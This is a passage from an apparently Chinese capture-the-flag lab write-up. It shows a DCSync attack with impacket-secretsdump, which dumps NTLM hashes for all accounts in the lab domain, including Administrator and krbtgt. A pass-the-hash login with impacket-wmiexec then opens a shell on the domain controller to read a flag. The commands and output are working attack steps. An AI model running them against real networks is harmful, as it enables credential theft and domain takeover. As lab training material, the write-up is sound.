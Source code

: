 进行 DCSync 攻击：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-secretsdump 'xiaorang.lab/Fileserver$@DC.xiaorang.lab' -target-ip 172.22.60.8 -dc-ip 172.22.60.8 -hashes :951d8a9265dfb652f42e5c8c497d70dc -just-dc-ntlm -user-status
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c3cfdc08527ec4ab6aa3e630e79d349b::: (status=Enabled)
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:98194d49adfe247020eaade4a3936d95::: (status=Disabled)
chenfang:1105:aad3b435b51404eeaad3b435b51404ee:302b5743b0f7b3436591aedf550ded5b::: (status=Enabled)
zhanghao:1106:aad3b435b51404eeaad3b435b51404ee:4c37e7a022daf856bfa2b16824696ab5::: (status=Enabled)
wangyun:1107:aad3b435b51404eeaad3b435b51404ee:561d64b9a1c943db32810fb5586a4be9::: (status=Enabled)
zhangwei:1108:aad3b435b51404eeaad3b435b51404ee:3d2f864635abb31f2546dc07cbcd2528::: (status=Enabled)
wangkai:1109:aad3b435b51404eeaad3b435b51404ee:d20a47a4529552805d96a24c3020384c::: (status=Enabled)
yangyan:1110:aad3b435b51404eeaad3b435b51404ee:4f80f967fd586f4212bc264a7d1f6789::: (status=Enabled)
zhangxin:1111:aad3b435b51404eeaad3b435b51404ee:38780e101b28bb9b9036fc3e2e4f35e6::: (status=Enabled)
wangping:1112:aad3b435b51404eeaad3b435b51404ee:0adf6fb0f808be95d449e3b6c67b02dc::: (status=Enabled)
DC$:1000:aad3b435b51404eeaad3b435b51404ee:b35cdb9341faa18661a2a63b3a28feb7::: (status=Enabled)
PC1$:1103:aad3b435b51404eeaad3b435b51404ee:6f1b93a305b2c1eacb59d6562b968ef6::: (status=Enabled)
FILESERVER$:1114:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc::: (status=Enabled)
EVILCOMPUTER$:1116:aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72::: (status=Enabled)
[*] Cleaning up...
```

PTH 登录域控：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-wmiexec xiaorang.lab/Administrator@172.22.60.8 -hashes :c3cfdc08527ec4ab6aa3e630e79d349b -codec GBK -shell-type powershell
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> type C:\Users\Administrator\flag\flag04.txt
 :::===== :::      :::====  :::====  :::  === :::=======
 :::      :::      :::  === :::  === :::  === ::: === ===
 ======   ===      ======== =======  ===  === === === ===
 ===      ===      ===  === === ===  ===  === ===     ===
 ===      ======== ===  === ===  ===  ======  ===     ===

flag04: flag{928d5edc-3678-40f2-a6bd-24643c3040e9}

PS C:\>
```
